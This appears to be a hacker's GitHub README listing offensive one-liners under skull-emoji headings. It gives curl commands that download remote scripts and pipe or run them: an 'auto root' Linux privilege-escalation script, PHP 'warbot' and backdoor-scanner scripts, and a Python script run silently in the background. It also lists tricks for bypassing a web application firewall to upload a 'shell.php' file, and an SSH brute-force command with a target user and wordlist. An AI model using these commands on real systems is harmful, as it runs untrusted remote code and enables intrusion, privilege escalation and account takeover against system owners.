 # localroot Auto Root Linux Privilege Escalation

```bash
curl -L https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/modrot.sh -o /tmp/modrot.sh \
&& dos2unix /tmp/modrot.sh \
&& chmod +x /tmp/modrot.sh \
&& /tmp/modrot.sh \
&& rm -f /tmp/modrot.sh
```
```bash
curl -L https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/modrot.sh -o /tmp/modrot.sh \
&& sed -i 's/\r$//' /tmp/modrot.sh \
&& chmod +x /tmp/modrot.sh \
&& /tmp/modrot.sh \
&& rm -f /tmp/modrot.sh
```
# Auto Backup defend ☠️
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/autobackup.php | php - backup y
```
# Auto Warbot ☠️
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/warbot.php | php
```
# scanner backdoor high ☠️
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/outsca.php | php
```
# Scanner backdoor simple ☠️
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/simple.php | php
```
# Bayypas Waf
```
Transfer-Encoding: chunked
```
Content-Type: multipart/form-data; boundary=---------------------------123456789;
```
shell%2Ephp
```
```
#Brute Force Ssh
'''
'''
https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/bfssh.sh

./entod.sh -u targetuser -t 0.5 -s 0.003 -w top12000.txt

nohup curl -s https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/ko.py | python - > /dev/null 2>&1 &

```
☠️ Powerfull Auto root Localroot By Ghost haxor | Mr.W4W4N ☠️

